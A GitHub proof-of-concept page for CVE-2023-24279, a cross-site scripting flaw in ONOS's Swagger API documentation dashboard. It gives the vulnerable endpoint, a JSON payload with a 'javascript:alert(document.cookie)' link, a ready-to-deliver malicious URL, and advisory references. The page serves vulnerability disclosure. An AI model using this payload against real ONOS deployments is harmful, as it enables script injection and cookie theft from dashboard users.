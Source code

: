 # CVE-2023-24279

Description
------

A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.


PoC
------

PoC for CVE-2023-24279: [@edoardottt Youtube video](https://www.youtube.com/watch?v=1mSXzzwcGMM)

Vulnerable endpoint: http://localhost:8181/onos/v1/docs/

Payload: 
```json
{
  "swagger" : "2.0",
  "info" : {
    "version" : "1.0.100",
    "title" : "Swagger UI v2.2.10 XSS POC",
    "description" : "Swagger UI v2.2.10 XSS POC",
    "contact" : {
      "name" : "edoardottt",
      "url" : "javascript:alert(document.cookie)",
      "email" : "edoardott@gmail.com"
    },
  },
}
```

Malicious URL ready to be delivered: http://localhost:8181/onos/v1/docs/?url=https://gist.githubusercontent.com/edoardottt/197f4bc482eddb263c47b525268d1628/raw/49ad93f4e5832d6e6af5cf4f9962dd9bebf9f3c1/onos-xss-poc.json

References
------
- https://www.edoardoottavianelli.it/CVE-2023-24279
- https://nvd.nist.gov/vuln/detail/CVE-2023-24279
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-24279
- https://github.com/advisories/GHSA-3xmp-jwrr-8f4r
- https://www.tenable.com/cve/CVE-2023-24279
- https://www.opencve.io/cve/CVE-2023-24279
- https://avd.aquasec.com/nvd/2023/cve-2023-24279/
- https://cve.report/CVE-2023-24279
- https://security.snyk.io/vuln/SNYK-JAVA-ORGONOSPROJECT-5601105

<br>

Useful links while researching for this CVE:

- https://github.com/swagger-api/swagger-ui/pull/3848
- https://github.com/swagger-api/swagger-ui/issues/3847
- https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9
- https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9#diff-f510249cd192f2f011846a9640aebfd0c96995e744aa55e3b1c2e541da62a9ef
- https://security.snyk.io/vuln/npm:swagger-ui:20171031
- https://security.snyk.io/vuln/npm:swagger-ui:20160721
- https://security.snyk.io/vuln/npm:swagger-ui:20160901
